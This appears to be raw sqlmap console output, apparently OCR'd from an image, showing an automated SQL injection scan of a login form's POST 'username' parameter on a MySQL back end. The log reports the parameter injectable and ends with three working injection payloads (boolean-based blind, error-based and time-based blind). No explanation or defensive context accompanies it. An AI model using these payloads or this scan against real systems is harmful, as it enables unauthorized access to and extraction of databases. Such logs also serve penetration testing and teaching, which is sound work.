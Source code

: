 ~~~
[15:31:45] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[15:31:45] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[15:31:45] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[15:31:45] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[15:31:45] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[15:31:45] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[15:31:45] [INFO] POST parameter 'username' is 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[15:31:45] [INFO] testing 'MySQL inline queries'
[15:31:45] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[15:31:45] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[15:31:45] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[15:31:46] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[15:31:46] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[15:31:46] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[15:31:46] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[15:31:56] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[15:31:56] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[15:31:56] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[15:31:56] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[15:31:56] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[15:31:56] [INFO] target URL appears to have 2 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] 
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] 
[15:32:57] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
[15:32:58] [INFO] testing 'MySQL UNION query (random number) - 1 to 20 columns'
[15:32:59] [INFO] testing 'MySQL UNION query (NULL) - 21 to 40 columns'
[15:33:00] [INFO] testing 'MySQL UNION query (random number) - 21 to 40 columns'
[15:33:01] [INFO] testing 'MySQL UNION query (NULL) - 41 to 60 columns'
[15:33:03] [INFO] testing 'MySQL UNION query (random number) - 41 to 60 columns'
[15:33:04] [INFO] testing 'MySQL UNION query (NULL) - 61 to 80 columns'
[15:33:05] [INFO] testing 'MySQL UNION query (random number) - 61 to 80 columns'
[15:33:06] [INFO] testing 'MySQL UNION query (NULL) - 81 to 100 columns'
[15:33:08] [INFO] testing 'MySQL UNION query (random number) - 81 to 100 columns'
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 380 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: username=wbZX' RLIKE (SELECT (CASE WHEN (7089=7089) THEN 0x77625a58 ELSE 0x28 END))-- CFUA&password=

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=wbZX' OR (SELECT 9448 FROM(SELECT COUNT(*),CONCAT(0x71786b6271,(SELECT (ELT(9448=9448,1))),0x716b627a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- RtDZ&password=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=wbZX' AND (SELECT 4089 FROM (SELECT(SLEEP(5)))yEhM)-- dgUg&password=
---
~~~